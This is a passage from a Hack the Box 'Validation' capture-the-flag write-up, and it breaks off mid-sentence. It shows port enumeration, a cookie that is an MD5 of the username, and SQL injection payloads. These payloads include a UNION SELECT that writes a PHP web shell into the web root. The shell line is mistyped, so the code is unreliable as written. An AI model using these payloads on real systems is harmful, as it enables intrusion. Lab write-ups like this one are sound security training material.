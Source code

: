 ```yaml
--- 
title: "Hack the Box (HTB) - Validation"
description: "Exploiting asdfasdf"
date: 2024-07-13 12:00:00 -100
image: /assets/images/HTB - Validation Pics/Validation_Thumbnail.png
categories: [CTF]
tags: [grpc, sql injection,port forwarding, ssh, privilege escalation,]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start with an [autorecon](https://github.com/Tib3rius/AutoRecon) scan against our target machine

```bash
sudo autorecon <ip>
```

Looking at the results, we see the following ports open

- 22 (SSH)
- 80 (HTTP)
- 4566 (HTTP)
- 8080 (HTTP)
- Various filtered ports

![Nmap Scan](/assets/images/HTB%20-%20Validation%20Pics/Nmap%20scan_validated.png)

We'll start with the low hanging fruit of this scan and check out the apache web server hosted on port 80. It appears to be a docker container as SSH identifies as `Ubuntu` and the web server identified as `Debian`

![Web page](/assets/images/HTB%20-%20Validation%20Pics/Web%20page.png)

Let's type in our user and check the request in burp

![Burp](/assets/images/HTB%20-%20Validation%20Pics/inital_burp.png)

let's toss this over to repeater with `CTRL + R` and examine the request & responses

The first thing we notice is the static `cookie` that we get when sending the request

The length of the cookie is 32 characters and is a `MD5` of our username. MD5 is obviously deprecated and would be a finding on a real vulnerability assessment but for our purposes in this CTF we will move forward

Let's try a simple SQL injection on the country parameter since we couldn't manually edit that in the GUI

```bash
username=Jigsaw64&country=Anguilla' 
```

Copying the cookie and editing it into our cookie user field We see the following error:

 `Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php
on line 33`

![Fatal error](/assets/images/HTB%20-%20Validation%20Pics/Fatal%20error.png)

Our single quote `'` seems to have broken the SQL query and gave us an error.

Let's try commenting out the rest of the statement with `-- -`

The error went away once we commented out the rest of the query. This confirms that we have SQLi

Let's enumerate the number of columns by adding a simple union select statement 

```bash
username=Jigsaw94&country=Brazil' union select  1-- -
```

![No SQL error](/assets/images/HTB%20-%20Validation%20Pics/No%20SQL%20error.png)

No error, which confirms that we only have on column

With this we can now use the union select to insert a php shell 

```bash
Brazil' UNION SELECT "<?php SYSTEM($_REQUEST)['cmd']); ?>" INTO OUTFILE '/var/www/html/pwned.php
```
This PHP one-liner 